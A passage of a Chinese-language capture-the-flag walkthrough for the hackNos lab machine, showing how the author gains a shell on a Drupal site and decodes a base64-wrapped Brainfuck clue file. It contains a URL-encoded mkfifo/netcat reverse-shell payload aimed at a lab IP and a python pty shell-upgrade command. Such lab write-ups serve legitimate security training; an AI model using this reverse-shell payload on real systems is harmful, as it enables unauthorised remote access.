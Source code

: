 
我这里改为 /bin/bash

moon=rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|/bin/bash++2>%261|nc+192.168.5.129+9000+>/tmp/f





提交之后可以反弹一个shell

![image-20230628232204943](image-20230628232204943.png)

此时已经反弹成功

然后切换为python3的shell

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

![image-20230628232226022](image-20230628232226022.png)

在网站根目录发现一个**alexander.txt**

使用cat获取其内容

```
www-data@hackNos:/var/www/html/drupal$ cd ..
cd ..
www-data@hackNos:/var/www/html$ ls
ls
alexander.txt  drupal  index.html
www-data@hackNos:/var/www/html$ cat alexander.txt
cat alexander.txt
KysrKysgKysrKysgWy0+KysgKysrKysgKysrPF0gPisrKysgKysuLS0gLS0tLS0gLS0uPCsgKytbLT4gKysrPF0gPisrKy4KLS0tLS0gLS0tLjwgKysrWy0gPisrKzwgXT4rKysgKysuPCsgKysrKysgK1stPi0gLS0tLS0gLTxdPi0gLS0tLS0gLS0uPCsKKytbLT4gKysrPF0gPisrKysgKy48KysgKysrWy0gPisrKysgKzxdPi4gKysuKysgKysrKysgKy4tLS0gLS0tLjwgKysrWy0KPisrKzwgXT4rKysgKy48KysgKysrKysgWy0+LS0gLS0tLS0gPF0+LS4gPCsrK1sgLT4tLS0gPF0+LS0gLS4rLi0gLS0tLisKKysuPA==

```

凭借经验看出这是base64加密的数据，将其使用base64解密

![image-20230628232243956](image-20230628232243956.png)

然后发现左边是Brainfuck



![image-20230628232301143](image-20230628232301143.png)

解密网站如下

```
https://www.splitbrain.org/services/ook
```

![image-20230628232314924](image-20230628232314924.png)

点击右下角Brainfuck to text即可解密
